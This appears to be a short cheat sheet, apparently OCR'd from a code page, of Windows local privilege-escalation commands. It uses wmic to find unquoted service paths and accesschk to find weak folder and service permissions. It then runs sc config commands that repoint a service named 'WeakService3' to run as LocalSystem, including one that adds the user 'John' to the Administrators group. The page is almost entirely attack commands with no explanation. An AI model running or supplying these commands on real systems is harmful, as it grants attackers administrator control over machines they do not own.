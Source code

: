 wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """


```
#Find all weak folder permissions per drive.
accesschk.exe /accepteula 
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "John" c:\
```
```
#Find all weak folder permissions per drive.
 accesschk.exe -uwdqs Users c:\
 accesschk.exe -uwdqs "Authenticated Users" c:\
```
```
#Check what access authenticated users have to services.
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "John" *
```
```
sc config WeakService3 binpath= "C:\Users\John\Desktop\protect.exe"
sc config WeakService3  obj= ".\LocalSystem" password= ""
sc config WeakService3  start= "demand"
net start WeakService3
```
```
sc config WeakService3  binpath= "net localgroup Administrators John /add"
sc config WeakService3  obj= ".\LocalSystem" password= ""
sc config WeakService3  start= "demand"
```

